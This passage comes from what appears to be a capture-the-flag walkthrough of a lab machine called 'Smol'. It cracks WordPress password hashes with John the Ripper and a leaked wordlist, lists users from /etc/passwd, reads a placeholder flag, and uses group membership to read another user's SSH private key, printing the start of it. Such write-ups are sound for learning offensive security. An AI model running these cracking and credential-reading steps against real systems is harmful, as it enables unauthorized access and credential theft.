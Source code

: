 ```
./john --format=phpass --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt wordpress.txt
```

JohnTheRipper found one password, which success fully worked for the user `diego` on the machine:
![](/assets/blog/Smol/password.png)

Users on the machine:
```terminal
www-data@smol:/var/www/wordpress$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```

With that we could get the user flag.

```terminal
diego@smol:~$ cat user.txt 
FAKEFAKEFAKEFAKEFAKEFAKEFAKEFAKE
```

### think

As the user *diego*, we have access to every home folder because we are in the *internal* group.
```terminal
diego@smol:~$ id 
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)
diego@smol:~$ ls -lh /home/
total 16K
drwxr-x--- 2 diego internal 4.0K Aug 18  2023 diego
drwxr-x--- 2 gege  internal 4.0K Aug 18  2023 gege
drwxr-x--- 5 think internal 4.0K Jan 12  2024 think
drwxr-x--- 2 xavi  internal 4.0K Aug 18  2023 xavi
```

With that we can read the `id_rsa` key of the user think:
```terminal
diego@smol:/home/think/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
```

